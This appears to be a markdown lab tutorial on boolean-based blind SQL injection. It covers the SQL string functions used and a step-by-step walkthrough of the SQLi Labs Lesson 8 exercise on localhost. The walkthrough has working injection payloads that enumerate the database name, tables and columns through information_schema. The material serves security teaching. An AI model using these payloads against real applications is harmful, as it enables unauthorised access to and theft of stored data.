<h1 align="center">Blind SQL Injection</h1>

# Blind (Boolean-Based) SQL Injection

- Blind SQL (Structured Query Language) injection is a type of SQL Injection attack that asks the database true or false questions and determines the answer based on the applications response


# SQl function you need to know


## `length()`

- Return the length of the string, in bytes

#### Syntax

`LENGTH(string)`

- eg. `SELECT LENGTH("SQL Tutorial");`
- eg. `SELECT LENGTH(databse());`



## `substring()`

- The `SUBSTRING()` function extracts a substring from a string (starting at any position).

#### Syntax

`SUBSTRING(string, start, length)`

- eg. `SUBSTRING("sqltest",2,3;)`
- eg. `SUBSTRING(database(),1,1)`




## `ascii()`

- The ASCII() function returns the ASCII value for the specific character

#### Syntax

`ASCII(character)`

## `CHAR()`

-  `CHAR()` returns the character value of the given integer value according to the ASCII table

#### Syntax

`CHAR(ASCII number)`

# Practical Lab Training 


`In this session, We used SQLi Lab Lesson-8`

## 1. Finding parameter to inject 

`http://localhost:8000/chapter1/sqli_lab/Less-8/?id=2`

- Background Query

	- `SELECT * FROM table_name WHERE id='2'`

## 2. Identify the vulnearbility

- 1. test with quote `'` or `"`
- 2. Fix Error with `-- -` or `--+`
- 3. Testing with condition

	- TRUE  Condition ==> `AND 1=1` or `AND '1'='1` 
	- FALSE Condition ==> `AND 1=2` or `AND '1'='2` 

## 3. Emnumerate Data

#### 1. Finding Length of Database

- Use `<` and `=` operater and find the length of Database name
- `AND (LENGTH(database())) < 10` 
- `AND (LENGTH(database())) = 8` 

#### 2. Finding Database name using `ascii()` and `substring()` Function


- `AND (ascii(substring(database(),1,1))) < 100`

#### 3. Finding Table name 

- Step by step payload creation

	- `AND (ascii(substring()))`

	- `(select table_name from information_schema.tables where table_schema= database() limit 0,1);
`

- Final payload (I already know user tables is fourth table and then use `limit 3,1`)

- `AND (ascii(substring((select table_name from information_schema.tables where table_schema= database() limit 3,1), 1,1 ))) < 100`

#### 4. Finding Column name


`AND (ascii(substring((select column_name from information_schema.columns where table_name = 'users' and table_schema= database() limit 1,1), 1,1 ))) < 100`







